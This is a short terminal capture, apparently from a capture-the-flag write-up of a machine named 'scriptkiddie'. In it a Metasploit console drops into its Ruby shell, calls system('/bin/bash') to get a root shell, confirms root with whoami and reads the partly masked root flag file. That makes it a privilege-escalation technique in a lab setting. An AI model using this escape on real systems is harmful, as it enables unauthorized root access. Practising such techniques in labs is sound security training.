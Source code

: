 ````bash
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View advanced module options with advanced

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object
>> system("/bin/bash")

root@scriptkiddie:/home/pwn# whoami
root
root@scriptkiddie:/home/pwn# cat /root/root.txt 
17c4d***************************
````
